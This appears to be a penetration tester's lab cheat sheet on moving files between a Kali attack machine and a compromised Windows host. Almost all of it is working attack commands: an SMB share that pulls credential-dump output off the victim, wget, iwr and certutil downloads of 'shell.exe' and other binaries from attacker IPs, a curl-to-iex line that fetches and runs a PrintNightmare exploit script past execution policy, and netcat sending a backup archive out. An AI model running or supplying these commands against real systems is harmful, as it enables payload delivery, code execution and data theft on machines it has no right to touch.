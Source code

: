 from windows back to my kali linux  
on kali run  
```  
smbserver.py smb share/ -smb2support  
```  
on windows, run:  
```  
net use \\192.168.49.109\smb  
```  
then copy the file  
```  
copy .\mimi_allyouneed101.txt \\192.168.49.109\smb\mimi_allyouneed101.txt  
```  
  
wget  
```  
wget http://10.10.14.169/shell.exe -o s.exe  
```  
  
iwr  
```  
iwr -uri http://10.10.14.169/shell.exe -o s.exe  
```  
  
```  
certutil -split -urlcache -f http://192.168.49.109/chkaccess.exe C:\\Users\\rudi.davis\\Desktop\\chkaccess.exe  
```  
  
if wget doesn't work because IE engine isn't availablem, use `curl` with parameter:  
```  
curl 10.10.14.6/CVE-2021-1675.ps1 -UseBasicParsing | iex  
```  
- `-UseBasicParsing` allows the file to come back without IE  
- `iex` imports (or runs) the script   
	- useful if can't import/run a script when transferred via other means because of execution policy and `powershell -ep bypass` doesn't work  
  
### NC from remote to host  
```  
nc -lnvp 443 > 16162020_backup.zip  
```  
- run on kali  
```  
md5sum 16162020_backup.zip  
```  
- checksum on remote machine before transferring  
```  
cat 16162020_backup.zip | nc 10.10.14.191 443  
```  
- on remote machine to initiate the transfer  
```  
md5sum 16162020_backup.zip  
```  
- checksum on kali to make sure matches  